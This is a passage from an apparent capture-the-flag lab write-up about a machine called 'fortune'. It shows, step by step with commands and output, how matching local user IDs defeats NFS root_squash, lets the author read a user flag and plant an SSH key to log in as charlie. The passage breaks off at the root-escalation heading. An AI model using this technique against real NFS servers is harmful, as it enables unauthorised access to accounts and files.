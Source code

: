 There is likely an option, `root_squash`, that doesn’t allow root connections over nfs, and rather converts them to nobody.

Still, I can try other uids. I’ll remember from `/etc/passwd`  that charlie is 1000 and bob is 1001:

```

fortune> cat /etc/passwd | grep -e bob -e charlie
charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
bob:*:1001:1001::/home/bob:/bin/ksh

```

I already have users on my local host with those ids:

```

root@kali# cat /etc/passwd | grep -e 1000 -e 1001
ssh_user:x:1000:1000::/home/ssh_user:/bin/sh
dummy:x:1001:1001::/home/dummy:/bin/bash

```

If I switch to ssh\_user (1000), I now have access as charlie, and can grab `user.txt`:

```

root@kali# su ssh_user
ssh_user@kali$ ls /mnt/fortune/charlie/
mbox  user.txt
ssh_user@kali$ cat /mnt/fortune/charlie/user.txt 
ada0affd...

```

### Shell

I can also generate a key pair with `ssh-keygen` and add the public key to charlie’s (or bob’s) `authorized_keys` file. Then I can ssh into the box as either user:

```

root@kali# ssh -i ~/id_rsa_generated charlie@10.10.10.127
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.
fortune$ id
uid=1000(charlie) gid=1000(charlie) groups=1000(charlie), 0(wheel)

```

## Priv: charlie –> root

### Enumeration
